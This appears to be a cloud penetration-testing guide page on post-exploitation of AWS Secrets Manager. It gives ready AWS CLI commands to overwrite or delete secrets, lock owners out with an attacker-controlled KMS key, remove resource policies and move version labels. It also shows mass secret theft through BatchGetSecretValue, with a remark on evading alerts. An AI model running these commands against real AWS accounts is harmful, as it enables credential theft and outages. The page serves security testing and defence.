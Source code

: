 # AWS - Secrets Manager Post Exploitation

## Secrets Manager

For more information check:

[[../aws-services/aws-secrets-manager-enum.md]]

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

If the attacker has the secretsmanager:UpdateSecret permission, they can configure the secret to use a KMS key owned by the attacker. That key is initially set up in such a way that anyone can access and use it, so updating the secret with the new key is possible. If the key was not accessible, the secret could not be updated.

After changing the key for the secret, the attacker modifies the configuration of their key so that only they can access it. This way, in the subsequent versions of the secret, it will be encrypted with the new key, and since there is no access to it, the ability to retrieve the secret would be lost.

It is important to note that this inaccessibility will only occur in later versions, after the content of the secret changes, since the current version is still encrypted with the original KMS key.

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

## secretsmanager:RestoreSecret

It is possible to restore a secret, which allows the restoration of secrets that have been scheduled for deletion, since the minimum deletion period for secrets is 7 days and the maximum is 30 days. Together with the secretsmanager:GetSecretValue permission, this makes it possible to retrieve their contents.

To recover a secret that is in the process of being deleted, you can use the following command:
```bash
aws secretsmanager restore-secret \
  --secret-id <Secret_Name>
```

## secretsmanager:DeleteResourcePolicy

This action allows deleting the resource policy that controls who can access a secret. This could lead to a DoS if the resource policy was configured to allow access to a specific set of users.

To delete the resource policy:
```bash
aws secretsmanager delete-resource-policy \
  --secret-id <Secret_Name>
```

## secretsmanager:UpdateSecretVersionStage

The states of a secret are used to manage versions of a secret. AWSCURRENT marks the active version that applications use, AWSPREVIOUS keeps the previous version so that you can roll back if necessary, and AWSPENDING is used in the rotation process to prepare and validate a new version before making it the current one.

Applications always read the version with AWSCURRENT. If someone moves that label to the wrong version, the apps will use invalid credentials and may fail.

AWSPREVIOUS is not used automatically. However, if AWSCURRENT is removed or reassigned incorrectly, it may appear that everything is still running with the previous version.

```bash
aws secretsmanager update-secret-version-stage \
  --secret-id <your-secret-name-or-arn> \
  --version-stage AWSCURRENT \
  --move-to-version-id <target-version-id> \
  --remove-from-version-id <previous-version-id>
```

### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Abuse the Secrets Manager BatchGetSecretValue API to retrieve up to 20 secrets in a single request. This can dramatically reduce API-call volume compared to iterating GetSecretValue per secret. If filters are used (tags/name), ListSecrets permission is also required. CloudTrail still records one GetSecretValue event per secret retrieved in the batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Note that the permission `secretsmanager:BatchGetSecretValue` is not included enough to retrieve secrets, you also need `secretsmanager:GetSecretValue` for each secret you want to retrieve.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
  --secret-id-list <secret1> <secret2> <secret3> \
  --query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```

Exfiltrate by filters (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-key,Values=env \
  --max-results 20 \
  --query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-value,Values=prod \
  --max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
  --filters Key=name,Values=MyApp
```

Handling partial failures
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```

Impact
- Rapid “smash-and-grab” of many secrets with fewer API calls, potentially bypassing alerting tuned to spikes of GetSecretValue.
- CloudTrail logs still include one GetSecretValue event per secret retrieved by the batch.
